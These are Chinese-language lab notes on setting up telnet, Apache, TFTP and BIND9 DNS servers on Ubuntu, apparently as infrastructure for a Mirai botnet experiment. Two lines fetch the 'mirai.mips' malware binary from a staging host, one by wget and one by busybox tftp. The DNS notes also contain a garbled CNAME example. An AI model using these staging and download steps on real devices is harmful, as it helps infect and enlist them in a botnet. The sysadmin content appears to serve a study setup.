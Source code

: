 		* sudo /etc/init.d/xinetd restart 
	+ 测试：
		* 查看telnet运行状态：netstat -a | grep telnet
		* 登录127.0.0.1：
			- telnet localhost
			- ok

- Ubuntu建立apache服务器：
	+ sudo apt install apache2 -y
	+ sudo service apache2 start
	+ 默认目录在：/var/www/html
	+ 目标用户下载：wget http://192.168.1.2/mirai.mips

- ubuntu 开启ftp服务器：
	+ sudo apt install tftpd-hpa
	+ vi /etc/default/tftpd-hpa
		TFTP_USERNAME="tftp"
		TFTP_DIRECTORY="/tftpboot"
		TFTP_ADDRESS="0.0.0.0:69"
		TFTP_OPTIONS="--secure --create"
	+ mkdir /tftpd-hpa
	+ chmod 777 -R /tftpd-hpa
	+ chown tftp:nogroup -R /srv/tftpboot/  # 不用也可以
	+ service tftpd-hpa restart
	+ 测试：
		* netstat -a | grep tftp
		* echo 'test tftp' > /tftpboot/test
		* tftp localhost
		* get test
		* quit
		* busybox中：tftp -g -r mirai.mips 192.168.1.140  #
			- -g表示下载文件get
			- -p表示上传文件put
			- -l表示本地文件名local file
			- -r表示远程主机的文件名remote file

- Ubuntu搭建私有DNS：
	+ DNS：域名系统
		* DNS使用TCP和UDP端口53
		* FQDN：完全限定域名
		* SOA：start of authority起始授权记录，一个区域zone的解析库中有且只能有一条SOA记录，必须为解析库中的第一条记录，定义主DNS服务器地址和相关事件时间定义。
		* A：实现FQDN ==> IP 
		* MX：标明提供邮件服务的主机
		* NS：标明当前域内的DNS服务器
		* AAAA：FQDN ==> IPv6
		* CNAME：Canonical Name，别名记录
			- www IN A example.com  # 用户访问example.com的时候也会产生www.example.com效果
		* PTR：IP ==> FQDN
	+ 安装bind9：sudo apt install bind9
		* sudo apt install bind9-host dnsutils
		* sudo apt install bind9-doc
	+ 配置bind：
		* 添加一个zone：
			- sudo gedit /etc/bind/named.conf.local
				+ zone "example.com" {type master; file "/etc/bind/db.example.com"}
				+ 正向区域
				+ zone "168.192.in-addr.arpa" {type master; file "/etc/bind/db.168.192"}
				+ 反向区域（ 反向区域名称以“168.192”，这是“192.168”的八位逆转开始 ）
			- 正向：
				+ sudo cp db.local db.example.com
				+ sudo gedit /etc/bind/db.example.com
				+ 修改相应的example.com的位置
			- 反向：
				+ sudo cp db.local db.168.192
				+ 修改相应的192.168.1.130和example.com